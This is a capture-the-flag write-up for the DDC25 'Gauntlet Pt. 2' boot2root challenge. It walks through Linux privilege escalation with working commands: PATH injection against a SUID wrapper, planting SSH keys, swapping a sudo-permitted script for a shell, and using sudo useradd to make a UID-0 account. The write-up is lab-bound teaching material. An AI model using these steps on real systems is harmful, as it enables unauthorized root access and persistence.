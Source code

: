 ```yaml
---
title: The Gauntlet Pt. 2
date: 2025-03-16 00:00 +/-TTTT
categories: [CTF Writeups, DDC25]
tags: [DDC, Boot2Root, Web Exploitation] 
media_subpath: /assets/img/TheGauntlet
---
```


{: .prompt-info } 
> This challenge is a continuation of the previous challenge [The Gauntlet Pt. 1]({% post_url 2025-03-17-The Gauntlet 1%})


## 🗒️ Challenge description
>So, part two.. gitgud, get root..

## 😎 Writeup

Running `whoami` reveals that we are `user1`. Looking in our home directory, we see a file named `testBin`, which is owned by `user2` and has the SUID bit set. This means that we can run the binary as `user2` and potentially escalate our privileges.

Running the `testBin` binary gives us an output that looks like the `xdd` utility in Linux. XDD is normaly used to view the contents of a file in hexadecimal format. We may be able to read user2 files using this binary, or maybe even escalate our privileges to user2.

But something isn't quite right with `testBin`. Checking the size of the binary reveals that it is a different size than the original `xdd` binary. This could mean that the binary is a wrapper around the original `xdd` binary, and not just a copy. Let's export the binary to our local machine and analyze it with Ghidra. Also, the binary for some reason want's us to always use one parameter with it.

Decompiling the `testBin` binary in Ghidra reveals that the binary is indeed a wrapper around the original `xdd` binary. The binary simply calls `system("xdd")` and then exits. This is however an unsafe way to call `xdd`, as it is vulnerable to path injection.

We can exploit this vulnerability by creating a malicious `xdd` shell script that executes a shell for us. We just have to make sure our malicious `xdd` script is in the path before the original `xdd` binary.

```bash
$ echo '#!/bin/sh -p\n/bin/sh -p' > xdd
$ chmod +x xdd
$ export PATH=.:$PATH
$ ./testBin -h
```

Remeber to pass a parameter to testBin, or it will exit before exectuing the system call.

Now if we run `whoami` we'll see that we are `user2`. Looking in the `/home/user2` directory, we find one file `runMe.sh`.
This script just echoes "If only I could be something usefull...". The script is owned by root, but doesn't have the SUID bit set. We can't directly write to it as user2, but we can delete and replace it.

I must admit, I was stuck at this point for a loooooong time. Running `sudo -l` should reveal info about what we can run as sudo. But it just prompts for user1 password instead. Which is odd. Running `id` reveals that we still have our original UID as user1, but EUID is user2. At this point I was confused and wanted a better shell. Running `ps aux` i noticed that `sshd` was running. 

We can create the `.ssh` directory in `/home/user2` and add our public key to the `authorized_keys` file. This will allow us to SSH into the box as user2. 

```bash
$ mkdir /home/user2/.ssh
$ ssh-keygen
$ cat ~/.ssh/id_rsa.pub > /home/user2/.ssh/authorized_keys
$ cat /home/user2/.ssh/id_rsa
```

Now we can successfully connect to user2 with SSH. Which gives us a much nicer shell. Now running `sudo -l` reveals that we can run `/usr/bin/runMe.sh' as `user3` without a password. We can delete the original write-protected `runMe.sh` and replace it with a malicious script that gives us a shell as `user3`.

```
$ rm -f /home/user2/runMe.sh
$ echo '/bin/sh' > runMe.sh
$ chmod +x runMe.sh
$ sudo /usr/bin/runMe.sh
```

Now we are `user3`. But the user3 home directory is empty! 🤯

Running `sudo -l` reveals that we can run `/usr/sbin/useradd` as `root` without a password. We can use this to create a new user with root privileges.

```bash
$ sudo -u root useradd -o -u 0 -m -k /home/user2 user4
```

- `-o` allows us to create a user with the same UID as an existing user.
- `-u 0` sets the UID to 0, which is the root user.
- `-m` creates a home directory for the user.
- `-k /home/user2` copies the contents of the `/home/user2` directory to the new user's home directory. This is useful because the `/home/user2` directory contains our SSH keys, which can then be used to SSH into the new user aswell.

Now we can SSH into the box as `user4` and read the flag in `/root/root.flag`.

```bash
$ whoami
  user4
$ ./root/root.flag
  Press enter within 3 seconds: 
  Secret flag: DDC{1_h0p3_y0u_enj0y3d_my_f1r27_B2R}
```

Flag aquired! 🚩


## 🤓 TL;DR
1. Found SUID binary `testBin` that wraps the `xdd` binary.
2. Exploited path injection vulnerability in SUID binary `testBin` to get a shell as `user2`.
3. Found `runMe.sh` script in `/home/user2` that can be run as `user3` without a password.
4. Replaced `runMe.sh` with a malicious script to get a shell as `user3`.
5. Found that `useradd` can be run as `root` without a password.
6. Created a new user `user4` with UID 0 and copied the contents of `/home/user2` to the new user's home directory.
7. SSHed into the box as `user4` and read the flag in `/root/root.flag`.
